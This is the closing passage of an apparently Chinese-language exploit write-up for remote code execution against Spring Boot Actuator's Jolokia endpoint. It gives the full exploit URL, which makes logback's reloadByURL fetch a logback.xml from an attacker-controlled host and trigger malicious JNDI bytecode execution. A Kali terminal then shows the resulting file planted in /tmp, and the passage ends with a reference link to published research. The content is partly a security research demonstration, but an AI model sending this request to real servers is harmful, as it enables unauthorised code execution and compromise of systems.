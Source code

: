 服务器访问恶意jndi 地址,导致恶意字节码代码执行

`http://10.20.24.191:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/10.20.24.191:8000!/logback.xml`

![](./RCE_GET.png)

## 0x05 命令执行成功

![](./a_success.png)

```
root@kali:/var/www/html# ls /tmp/j*
/tmp/jas502n
root@kali:/var/www/html#
```


## 参考链接

https://www.veracode.com/blog/research/exploiting-spring-boot-actuators

